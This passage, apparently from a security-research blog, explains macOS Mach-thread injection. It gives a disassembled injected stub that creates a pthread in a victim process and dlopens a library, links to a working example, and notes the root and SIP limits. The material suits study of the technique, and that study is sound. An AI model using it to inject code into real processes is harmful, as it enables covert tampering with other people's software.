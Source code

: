 The idea is to inject a bare Mach thread as a bootstrap thread and then use the `pthread_create_from_mach_thread` to create a second fully configured, legitimate `pthread`. Here's the modified `injectedCode` from Jonathan Levin's example.

```asm
                     _injectedCode:
00000001000020d0         push       rbp                                         ; DATA XREF=_inject+576, _inject+1014
00000001000020d1         mov        rbp, rsp
00000001000020d4         sub        rsp, 0x10
00000001000020d8         lea        rdi, qword [rbp-8]
00000001000020dc         xor        eax, eax
00000001000020de         mov        ecx, eax
00000001000020e0         lea        rdx, qword [_injectedCode+56]               ; 0x100002108
00000001000020e7         mov        rsi, rcx
00000001000020ea         movabs     rax, 0x5452434452485450                     ; PTHRDCRT
00000001000020f4         call       rax
00000001000020f6         mov        dword [rbp-0xc], eax
00000001000020f9         add        rsp, 0x10
00000001000020fd         pop        rbp
00000001000020fe         mov        rax, 0xd13
0000000100002105         jmp        _injectedCode+53                            ; CODE XREF=_injectedCode+53
0000000100002107         ret

0000000100002108         push       rbp                                         ; DATA XREF=_injectedCode+16
0000000100002109         mov        rbp, rsp
000000010000210c         sub        rsp, 0x10
0000000100002110         mov        esi, 0x1
0000000100002115         mov        qword [rbp-8], rdi
0000000100002119         lea        rdi, qword [aLiblibliblib]                  ; "LIBLIBLIBLIB"
0000000100002120         movabs     rax, 0x5f5f4e45504f4c44                     ; DLOPEN__
000000010000212a         call       rax
000000010000212c         xor        esi, esi
000000010000212e         mov        edi, esi
0000000100002130         mov        qword [rbp-0x10], rax
0000000100002134         mov        rax, rdi
0000000100002137         add        rsp, 0x10
000000010000213b         pop        rbp
000000010000213c         ret
                     aLiblibliblib:
000000010000213d         db         "LIBLIBLIBLIB", 0                           ; DATA XREF=_injectedCode+73
```

You can download a full updated working example of this code from the link below:

[https://gist.github.com/knightsc/45edfc4903a9d2fa9f5905f60b02ce5a](https://gist.github.com/knightsc/45edfc4903a9d2fa9f5905f60b02ce5a){: target="_blank"}

There's a couple notes on this technique. First it depends on being able to call `task_for_pid` to get the Mach task port of the victim process. You can only do this as root and just like dylib injection you can not use `task_for_pid` on Apple platform binaries due to SIP on macOS 10.12 and higher. So while it's still an interesting technique it's not as useful for privilege escalation. This technique has been used in the past in iOS exploits in cases where another exploit has allowed a task port to be leaked over to an attacker process.
